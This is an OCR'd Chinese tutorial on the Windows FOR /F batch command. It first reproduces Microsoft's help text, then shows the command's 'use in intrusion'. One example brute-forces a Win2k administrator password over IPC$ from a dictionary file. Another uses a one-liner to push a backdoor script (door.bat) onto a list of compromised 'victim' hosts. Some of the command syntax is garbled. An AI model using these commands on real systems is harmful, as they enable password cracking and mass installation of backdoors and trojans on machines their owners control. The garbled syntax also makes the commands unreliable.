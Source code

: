 tokens=x,y,m-n - 指每行的哪一个符号被传递到每个迭代的 for 本身。这会导致额外变量名称的格式为一个范围。通过 nth 符号指定 m 符号字符串中的最后
一个字符星号,那么额外的变量将在最后一个符号解析之分配并接受行的保留文本。  

usebackq - 指定新语法已在下类情况中使用:  
在作为命令执行一个后引号的字符串并且引号字符为文字字符串命令并允许在 fi中使用双引号扩起文件名称。  
sample1:  
FOR /F "eol=; tokens=2,3* delims=, " %i in (myfile.txt) do command  
会分析 myfile.txt 中的每一行,忽略以分号打头的那些行,将每行中的第二个和第三个符号传递给 for 程序体;用逗号和/或空格定界符号。请注意,这个 for 
程序体的语句引用 %i 来取得第二个符号,引用 %j 来取得第三个符号,引用 %k来取得第三个符号后的所有剩余符号。对于带有空格的文件名,您需要用双引号将文
件名括起来。为了用这种方式来使用双引号,您还需要使用 usebackq 选项,否则,双引号会被理解成是用作定义某个要分析的字符串的。  

%i 专门在 for 语句中得到说明,%j 和 %k 是通过tokens= 选项专门得到说明的。您可以通过 tokens= 一行指定最多 26 个符号,只要不试图说明一个高于字母
 z 或Z 的变量。请记住,FOR 变量是单一字母、分大小写和全局的同时不能有 52 个以上都在使用中。  

您还可以在相邻字符串上使用 FOR /F 分析逻辑;方法是,用单引号将括号之间的 filenameset 括起来。这样,该字符串会被当作一个文件中的一个单一输入行。  

最后,您可以用 FOR /F 命令来分析命令的输出。方法是,将括号之间的 filenameset 变成一个反括字符串。该字符串会被当作命令行,传递到一个子 CMD.EXE,
其输出会被抓进内存,并被当作文件分析。因此,以下例子:  

FOR /F "usebackq delims==" %i IN (`set`) DO @echo %i  

会枚举当前环境中的环境变量名称。  

另外,FOR 变量参照的替换已被增强。您现在可以使用下列  

选项语法:  
~I - 删除任何引号("),扩充 %I  
%~fI - 将 %I 扩充到一个完全合格的路径名  
%~dI - 仅将 %I 扩充到一个驱动器号  
%~pI - 仅将 %I 扩充到一个路径  
%~nI - 仅将 %I 扩充到一个文件名  
%~xI - 仅将 %I 扩充到一个文件扩展名  
%~sI - 扩充的路径只含有短名  
%~aI - 将 %I 扩充到文件的文件属性  
%~tI - 将 %I 扩充到文件的日期/时间  
%~zI - 将 %I 扩充到文件的大小  
%~$PATH:I - 查找列在路径环境变量的目录,并将 %I 扩充到找到的第一个完全合格的名称。如果环境变量未被定义,或者没有找到文件,此组合键会扩充空字符串  
可以组合修饰符来得到多重结果:  
%~dpI - 仅将 %I 扩充到一个驱动器号和路径  
%~nxI - 仅将 %I 扩充到一个文件名和扩展名  
%~fsI - 仅将 %I 扩充到一个带有短名的完整路径名  
%~dp$PATH:i - 查找列在路径环境变量的目录,并将 %I 扩充到找到的第一个驱动器号和路径。  
%~ftzaI - 将 %I 扩充到类似输出线路的 DIR  
在以上例子中,%I 和 PATH 可用其他有效数值代替。%~ 语法  
用一个有效的 FOR 变量名终止。选取类似 %I 的大写变量名比较易读,而且避免与不分大小写的组合键混淆。  
以上是MS的官方帮助,下面我们举几个例子来具体说明一下For命令在入侵中的用途。  

sample2:  
利用For命令来实现对一台目标Win2k主机的暴力密码破解。  
我们用net use //ip/ipc$ "password" /u:"administrator"来尝试这和目标主机进行连接,当成功时记下密码。  
最主要的命令是一条:for /f i% in (dict.txt) do net use //ip/ipc$ "i%" /u:"administrator"  
用i%来表示admin的密码,在dict.txt中这个取i%的值用net use 命令来连接。然后将程序运行结果传递给find命令--  
for /f i%% in (dict.txt) do net use //ip/ipc$ "i%%" /u:"administrator"　find ":命令成功完成">>D:/ok.txt ,这样就ko了。 

sample3:  
没有过手里有大量肉鸡等着你去种后门+木马呢?,当数量特别多的时候,原本很开心的一件事都会变得很郁闷:)。文章开头就谈到使用批处理文件,可以简化日
常或重复性任务。那么如何实现呢?呵呵,看下去你就会明白了。  
主要命令也只有一条:(在批处理文件中使用 FOR 命令时,指定变量使用 %%variable)  
@for /f "tokens=1,2,3 delims= " %%i in (victim.txt) do start call door.bat %%i %%j %%k  
tokens的用法请参见上面的sample1,在这里它表示按顺序将victim.txt中的内容传递给door.bat中的参数%i %j %k。  
